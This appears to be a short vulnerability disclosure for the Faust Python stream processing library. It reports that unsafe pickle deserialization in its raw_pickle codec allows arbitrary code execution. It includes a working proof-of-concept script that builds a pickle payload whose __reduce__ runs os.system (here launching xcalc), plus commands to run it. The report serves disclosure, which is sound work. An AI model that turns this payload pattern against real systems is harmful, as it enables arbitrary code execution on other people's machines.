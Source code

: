 # Description
Faust is a stream processing library, porting the ideas from Kafka Streams to Python.It is used at Robinhood to build high performance distributed systems and real-time data pipelines that process billions of events every day.
* **Vulnerability description**
    untrusted loading of data by the pickle.load function leading to Arbitrary code execution.

# Proof of Concept
Run exploit.py
```
import os
import pickle
#os.system('pip install faust')
from faust.serializers import codecs
#payload formation
class ArbitraryCode:
    def __reduce__(self):
        cmd = ('xcalc')
        return os.system, (cmd,)
dumps = pickle.dumps(ArbitraryCode())
codecs.raw_pickle._loads(dumps,dumps)
```
* `pip3 install faust`
* `python3 exploit.py`
